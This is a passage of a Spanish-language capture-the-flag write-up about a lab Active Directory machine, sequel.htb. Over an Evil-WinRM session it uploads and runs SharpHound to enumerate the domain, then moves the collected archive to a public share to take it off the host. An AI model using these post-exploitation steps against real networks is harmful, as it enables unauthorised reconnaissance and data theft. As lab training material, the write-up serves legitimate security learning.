 ## Escalada De privilegios
Como esto es un AD(Directorio Activo) voy a tirar de BloodHound para enumerar todo el dominio.

Para recolectar toda la informacion voy a usar [SharpHound](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe) el cual me crea un comprimido y este es el que hay que subir al BloodHound, Subamos el binario a la maquina
```bash
*Evil-WinRM* PS C:\tmp> upload SharpHound.exe
Info: Uploading SharpHound.exe to C:\tmp\SharpHound.exe

                                                             
Data: 1402196 bytes of 1402196 bytes copied

Info: Upload successful!
```
Lo ejecutamos
```bash
*Evil-WinRM* PS C:\tmp> ./SharpHound.exe
2023-03-06T23:28:35.2912927-08:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2023-03-06T23:28:35.4162904-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-03-06T23:28:35.4319410-08:00|INFORMATION|Initializing SharpHound at 11:28 PM on 3/6/2023
2023-03-06T23:28:35.5881763-08:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-03-06T23:28:35.7600465-08:00|INFORMATION|Beginning LDAP search for sequel.htb
2023-03-06T23:28:35.7912729-08:00|INFORMATION|Producer has finished, closing LDAP channel
2023-03-06T23:28:35.8068975-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-03-06T23:29:06.5096971-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2023-03-06T23:29:21.7175581-08:00|INFORMATION|Consumers finished, closing output channel
2023-03-06T23:29:21.7488080-08:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2023-03-06T23:29:21.9206988-08:00|INFORMATION|Status: 97 objects finished (+97 2.108696)/s -- Using 42 MB RAM
2023-03-06T23:29:21.9206988-08:00|INFORMATION|Enumeration finished in 00:00:46.1755427
2023-03-06T23:29:21.9988234-08:00|INFORMATION|Saving cache with stats: 56 ID to type mappings.
 56 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-03-06T23:29:22.0144527-08:00|INFORMATION|SharpHound Enumeration Completed at 11:29 PM on 3/6/2023! Happy Graphing!
```
este comprimido que nos crea es el que tenemos que traernos a nuestra maquina.
```bash
*Evil-WinRM* PS C:\tmp> dir


    Directory: C:\tmp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         3/6/2023  11:29 PM          11546 20230306232921_BloodHound.zip
-a----         3/6/2023  11:29 PM           8395 NjQ0M2M1ZmEtNTkyNy00OWNjLWJmNzAtOWZiMzUxMzM4MmNj.bin
-a----         3/6/2023  11:26 PM        1051648 SharpHound.exe
```
Para Descargar este comprimido lo voy a mover a la ruta de un recurso compartido.
```bash
*Evil-WinRM* PS C:\tmp> cp 20230306233749_BloodHound.zip ../Public
```